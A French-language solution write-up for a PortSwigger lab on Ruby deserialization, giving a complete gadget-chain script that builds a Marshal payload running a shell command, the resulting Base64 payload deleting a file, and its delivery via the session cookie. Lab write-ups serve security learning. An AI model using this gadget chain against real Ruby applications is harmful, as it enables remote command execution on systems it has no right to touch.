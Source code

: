 # Lab

https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-ruby-deserialization-using-a-documented-gadget-chain

## Solution

On sait que ce lab utilise Ruby en provoquant une erreur de désérialisation : `index.rb:13:in load&apos;: dump format error(0x52) (ArgumentError) from -e:13:in &lt;main&gt;&apos;`

On peut chercher en ligne pour des gadgets chain pour Ruby. On trouve [celui-ci](https://bishopfox.com/blog/ruby-vulnerabilities-exploits) :

```ruby
Gem::SpecFetcher
Gem::Installer
require "base64"
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end
wa1 = Net::WriteAdapter.new(Kernel, :system)
rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "PAYLOAD_HERE")
wa2 = Net::WriteAdapter.new(rs, :resolve)
i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")
n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)
t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)
r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)
payload = Marshal.dump({payload: [Gem::SpecFetcher, Gem::Installer, r]})
puts Base64.strict_encode64(payload)
```

En remplacant `PAYLOAD_HERE` par `rm /home/carlos/morale.txt` on obtient le payload suivant :

```
BAh7BjoMcGF5bG9hZFsIYxVHZW06OlNwZWNGZXRjaGVyYxNHZW06Okluc3RhbGxlclU6FUdlbTo6UmVxdWlyZW1lbnRbBm86HEdlbTo6UGFja2FnZTo6VGFyUmVhZGVyBjoIQGlvbzoUTmV0OjpCdWZmZXJlZElPBzsIbzojR2VtOjpQYWNrYWdlOjpUYXJSZWFkZXI6OkVudHJ5BzoKQHJlYWRpADoMQGhlYWRlckkiCGFhYQY6BkVUOhJAZGVidWdfb3V0cHV0bzoWTmV0OjpXcml0ZUFkYXB0ZXIHOgxAc29ja2V0bzoUR2VtOjpSZXF1ZXN0U2V0BzoKQHNldHNvOw8HOxBtC0tlcm5lbDoPQG1ldGhvZF9pZDoLc3lzdGVtOg1AZ2l0X3NldEkiH3JtIC9ob21lL2Nhcmxvcy9tb3JhbGUudHh0BjsNVDsTOgxyZXNvbHZl
```

Ensuite, on envoie une requête sur la page d'accueil avec le cookie `session` contenant ce payload et le fichier est supprimé.